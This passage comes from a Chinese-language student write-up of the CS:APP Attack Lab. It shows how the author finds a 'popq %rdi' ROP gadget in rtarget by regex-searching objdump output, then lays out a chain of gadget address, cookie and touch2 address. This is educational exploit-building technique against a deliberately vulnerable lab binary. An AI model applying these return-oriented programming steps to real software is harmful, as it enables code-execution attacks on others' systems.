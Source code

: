 ![Cleanshot-2023-10-18-at-11.09.45@2x](./README.assets/Cleanshot-2023-10-18-at-11.09.45@2x.png)

我们需要检索

-   `movq %rbp D `：`48 89 e[89a-f] c3`
-   `movl %ebp D`：`89 e[89a-f] c3`

直接检索公用后缀即可：

```text
89 e[89a-f] c3
```

发现均没有（草！）

于是又经历几次踩坑，我最终听从树洞的说法，直接忽视了 handout 里要求只能在 farm.c 中查找的要求，转而对 rtarget 直接进行检索：

```bash
objdump -d rtarget > rtarget.s
```

如同前文一样，进行正则表达式替换或者直接使用如下式子检索跳行的 `c3`：

```text
5[89a-f](\s+\t.+\n.+:\t)c3
```

> 调整第一个中括号可以精确匹配寄存器

在文件末尾找到了一个 `5f c3`，对应 `popq %rdi` ，直接一步到位！

```text
  403912:	41 5f                	pop    %r15
  403914:	c3
```

从而我们找到了所需 gadget 地址：`0x403913`

于是我们可以开始构造：

1. `0x00403913`：第一个 gadget
2. `0x11a67610`：Cookie
3. `0x00401ea8`：touch2 函数起始点，**注意可能和之前 ctarget 的 touch2 函数起始点不一样了**
